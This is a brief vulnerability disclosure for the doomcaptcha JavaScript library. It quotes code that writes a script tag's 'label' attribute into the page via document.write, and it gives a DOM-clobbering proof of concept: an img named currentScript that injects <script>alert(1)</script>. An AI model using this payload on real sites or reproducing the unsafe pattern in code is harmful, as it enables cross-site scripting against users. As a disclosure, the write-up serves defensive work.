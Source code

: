 ## doomcaptcha

### Meta

+ Library: doomcaptcha
+ Stars: 1K
+ Version: latest
+ Payload: ```<img name="currentScript" label="<script>alert(1)</script>"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Mitre
+ Foundby: TheHulk

### Library

URL:
+ `https://github.com/vivirenremoto/doomcaptcha/blob/main/script.js`

### Vulnerable Code Snippet

```javascript
var captcha_label = document.currentScript.getAttribute('label');

var captcha_html = '';
if (captcha_label) {
    captcha_html = '<p>' + captcha_label + '<br>';
}

document.write(captcha_html);
```

## PoC

```
<img name=currentScript label="<script>alert(1)</script>"></img>

<form>
<script src=script.js></script>
</form>
```
